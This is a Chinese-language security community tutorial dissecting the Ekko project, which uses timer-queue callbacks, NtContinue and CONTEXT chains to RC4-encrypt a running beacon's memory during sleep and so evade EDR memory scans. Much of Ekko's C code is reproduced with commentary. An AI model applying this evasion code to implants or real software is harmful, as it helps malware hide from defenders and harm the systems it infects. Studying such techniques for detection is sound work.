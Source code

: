 

# 奇安信攻防社区-【Web实战】内存免杀-Ekko项目解读

### 【Web实战】内存免杀-Ekko项目解读

通过分析Ekko项目了解内存加密过程，这对对抗内存扫描来说很重要。

# **概述**

Edr会扫描程序的内存空间，检测是否存在恶意软件，这种检测恶意软件的方式，应该和静态检测没什么区别，只不过一个扫描的对象是硬盘，一个是内存，应该都是基于特征码来检测的，为了绕过这种扫描我们可以对内存中的beacon进行加密，但这样的话就会出现问题，因为beacon被加密后是无法正常的运行的，因为代码被加密了。  
#  
我们提到过自己是不可以加密自己的，但是Ekko项目实现了自己加密自己的内存，这对对抗内存扫描很有帮助。

# **API理解**

`CreateEvent()`创建或打开一个事件对象

`SetEvent()`设置对象状态已通知状态

`CreateTimerQueue()`创建计时器队列

`CreateTimerQueueTimer()`创建计时器队列计时器

```js

BOOL CreateTimerQueueTimer(
  [out]          PHANDLE             phNewTimer,
  [in, optional] HANDLE              TimerQueue,
  [in]           WAITORTIMERCALLBACK Callback,
  [in, optional] PVOID               Parameter,
  [in]           DWORD               DueTime,
  [in]           DWORD               Period,
  [in]           ULONG               Flags
);
```

`phNewTimer`接受计时器队列计时器的缓冲区

`TimeQueue`计时器队列句柄

`CallBack`回调函数，计时器过期时要执行的函数

`Parameter`回调函数的参数

`DueTime`过多长时间向计时器发信号

`Period`计时器的周期，如果为0就向计时器发信号

`Flag`标志，指定函数调用相关内容。

对于`CreateTimerQueueTimer`函数可以这样理解，它可以定时执行一个函数，应该是异步执行的。

`WaitForSingleObject()`等待某个对象的状态，如果状态为已通知就往下执行，或者等待超时也会往下执行，也可以设置一直等待

`SystemFunction032()`通过RC4加密方式加密内存

`RtlCaptureContext()`得到当前线程的CONTEXT结构

对于`CONTEXT`结构可以理解为:用于存储线程运行时寄存器的值，RIP,RSP......

`NtContinue`()对于这个函数确实不太理解，这里只需要知道给它传进去一个`CONTEXT`结构，就可以执行`CONTEXT`对应的代码，也就是可以控制程序执行流程。

# **Ekko代码阅读**

一些不太重要的代码会跳过去

![image.png](assets/1701668709-3bd34dced2ccb3209e65cf4ea528da89.png)

```js
  hEvent = CreateEventW(0, 0, 0, 0);//创建一个未通知状态自动复位的事件
  hTimerQueue = CreateTimerQueue();//创建计时器队列
  NtContinue = GetProcAddress(GetModuleHandleA("Ntdll"), "NtContinue");//得到函数地址
  SysFunc032 = GetProcAddress(LoadLibraryA("Advapi32"), "SystemFunction032");
  ImageBase = GetModuleHandleA(NULL);//当前程序地址
  ImageSize = ((PIMAGE_NT_HEADERS)((DWORD64)ImageBase + ((PIMAGE_DOS_HEADER)ImageBase)->e_lfanew))->OptionalHeader.SizeOfImage;//大小
```

这段代码通过调用`CreateTimerQueue`创建了一个计时器队列接着，通过调用`GetModuleHandleA`与`GetProcAddress`得到了`NtContinue`和`SystemFunction032`函数的地址，接着又得到了当前程序的基地址和当前程序的大小

![image.png](assets/1701668709-6f9a54ca5d92fb747e61cc453a9868c9.png)

```js
if (CreateTimerQueueTimer(&hNewTimer, hTimerQueue, (WAITORTIMERCALLBACK)RtlCaptureContext, &CtxThread, 0, 0, WT_EXECUTEINTIMERTHREAD))//调用RtlCaptureContext得到CONTEXT结构
    {
        WaitForSingleObject(hEvent, 0x32);//等待

        memcpy(&RopProtRW, &CtxThread, sizeof(CONTEXT));
        memcpy(&RopMemEnc, &CtxThread, sizeof(CONTEXT));
        memcpy(&RopDelay, &CtxThread, sizeof(CONTEXT));
        memcpy(&RopMemDec, &CtxThread, sizeof(CONTEXT));
        memcpy(&RopProtRX, &CtxThread, sizeof(CONTEXT));
        memcpy(&RopSetEvt, &CtxThread, sizeof(CONTEXT));
```

通过`CreateTimerQueueTimer`创建了一个计时器，在创建后会立刻调用(因为`DueTime`与`period`都是0)`RtlCaptureContext`函数得到当前线程的`CONTEXT`结构，接着使用得到的`CONTEXT`结构初始化了一些`CONTEXT`结构，为下面的调用做准备。

![image.png](assets/1701668709-9ec2b48b2e88c447619197501e011dc1.png)

```js
        //构造VirtualProtect函数的CONTEXT结构，此函数用于修改内存权限
        // VirtualProtect( ImageBase, ImageSize, PAGE_READWRITE, &OldProtect );
        RopProtRW.Rsp -= 8;
        RopProtRW.Rip = (DWORD64)VirtualProtect;
        RopProtRW.Rcx = (DWORD64)ImageBase;
        RopProtRW.Rdx = (DWORD64)ImageSize;
        RopProtRW.R8 = PAGE_READWRITE;
        RopProtRW.R9 = (DWORD64)&OldProtect;
        //构造SystemFunction032函数的CONTEXT结构，此函数用于加密内存
        // SystemFunction032( &Key, &Img );
        RopMemEnc.Rsp -= 8;
        RopMemEnc.Rip = (DWORD64)SysFunc032;
        RopMemEnc.Rcx = (DWORD64)&Img;
        RopMemEnc.Rdx = (DWORD64)&Key;
        //构造WaitForSingleObject函数的CONTEXT结构，此函数用于睡眠
        // WaitForSingleObject( hTargetHdl, SleepTime );
        RopDelay.Rsp -= 8;
        RopDelay.Rip = (DWORD64)WaitForSingleObject;
        RopDelay.Rcx = (DWORD64)NtCurrentProcess();
        RopDelay.Rdx = SleepTime;
        //构造SystemFunction032函数的CONTEXT结构，此函数用于解密内存
        // SystemFunction032( &Key, &Img );
        RopMemDec.Rsp -= 8;
        RopMemDec.Rip = (DWORD64)SysFunc032;
        RopMemDec.Rcx = (DWORD64)&Img;
        RopMemDec.Rdx = (DWORD64)&Key;
        //构造VirtualProtect函数的CONTEXT结构，此函数用于修改内存权限
        // VirtualProtect( ImageBase, ImageSize, PAGE_EXECUTE_READWRITE, &OldProtect );
        RopProtRX.Rsp -= 8;
        RopProtRX.Rip = (DWORD64)VirtualProtect;
        RopProtRX.Rcx = (DWORD64)ImageBase;
        RopProtRX.Rdx = (DWORD64)ImageSize;
        RopProtRX.R8 = PAGE_EXECUTE_READWRITE;
        RopProtRX.R9 = (DWORD64)&OldProtect;
        //构造SetEvent函数CONTEXT结构，设置对象为已通知状态
        // SetEvent( hEvent );
        RopSetEvt.Rsp -= 8;
        RopSetEvt.Rip = (DWORD64)SetEvent;
        RopSetEvt.Rcx = (DWORD64)hEvent;
```

这段代码为调用`VirtualProtect`与`SystemFunction032`......做准备  
主要通过给`CONTEXT`结构的成员赋值，来模拟对应函数的调用(当然这里不是真的调用)

![image.png](assets/1701668709-d1d6b3d03647ec7bba4b15cc54738817.png)

```js
    //等100毫秒向计时器发信号，通过NtContinue调用VirtualProtect取消内存可执行权限
        CreateTimerQueueTimer(&hNewTimer, hTimerQueue, (WAITORTIMERCALLBACK)NtContinue, &RopProtRW, 100, 0, WT_EXECUTEINTIMERTHREAD);
        //等200毫秒向计时器发信号，通过NtContinue调用SystemFunction032加密内存
        CreateTimerQueueTimer(&hNewTimer, hTimerQueue, (WAITORTIMERCALLBACK)NtContinue, &RopMemEnc, 200, 0, WT_EXECUTEINTIMERTHREAD);
        //等300毫秒向计时器发信号，通过NtContinue调用WaitForSingleObject进行睡眠
        CreateTimerQueueTimer(&hNewTimer, hTimerQueue, (WAITORTIMERCALLBACK)NtContinue, &RopDelay, 300, 0, WT_EXECUTEINTIMERTHREAD);
```

这段代码负责加密，主要通过`CreateTimerQueueTimer`函数创建计时器，计时器在等待指定的毫秒后，调用回调函数(也就是调用`NtContinue`)而`NtContinue`则会根据我们传入的`CONTEXT`结构去执行对应的函数。

比如第一行，传入的是`VirtualProtect`函数的`CONTEXT`结构，那么`NtContinue`将会调用`VirtualProtect`

下面是调用流程，画的有点丑，师傅们见谅^ \_^......

![image.png](assets/1701668709-5f6618cedd857e23aa1e75a54ea62420.png)  
第二行就是调用`SystemFunction032`来对内存进行加密  
第三行就是调用`WaitForSingleObject`来实现睡眠，SleepTime就是睡眠的时间

![image.png](assets/1701668709-c7aa091c434df5429692f0b8bf01b61a.png)  
下面来看一下解密内存部分

```js
 //等400毫秒向计时器发信号，通过NtContinue调用SystemFunction032解密内存
        CreateTimerQueueTimer(&hNewTimer, hTimerQueue, (WAITORTIMERCALLBACK)NtContinue, &RopMemDec, 400, 0, WT_EXECUTEINTIMERTHREAD);
        //等500毫秒向计时器发信号，通过NtContinue调用VirtualProtect更改内存权限为可执行
        CreateTimerQueueTimer(&hNewTimer, hTimerQueue, (WAITORTIMERCALLBACK)NtContinue, &RopProtRX, 500, 0, WT_EXECUTEINTIMERTHREAD);
        //等600毫秒向计时器发信号，通过NtContinue调用SetEvent设置对象为已通知状态
        CreateTimerQueueTimer(&hNewTimer, hTimerQueue, (WAITORTIMERCALLBACK)NtContinue, &RopSetEvt, 600, 0, WT_EXECUTEINTIMERTHREAD);
```

第一行通过调用`SystemFunction032`来解密内存，第二行调用`VirtualProtect`设置内存权限为可读可写可执行，第三行调用`SetEvent`将事件对象设置为已通知状态。  
内存加密部分执行流程

![image.png](assets/1701668709-66bc14f649f957eee4a66c5c1770fe8a.png)

主要的代码已经介绍完了，下面来看一下效果。

# **效果**

**睡眠前**

![image.png](assets/1701668709-ab341a78c649c896a1b604d2ba3e82ce.png)  
**睡眠后**

![image.png](assets/1701668709-92d0170e739b95081a93e08573c04276.png)  
因为作者水平有限，文章中难免会出现错误和不足之处，如果有哪些不好的地方希望各位师傅斧正。

# **参考**

[https://github.com/Cracked5pider/Ekko](https://github.com/Cracked5pider/Ekko) Ekko项目地址

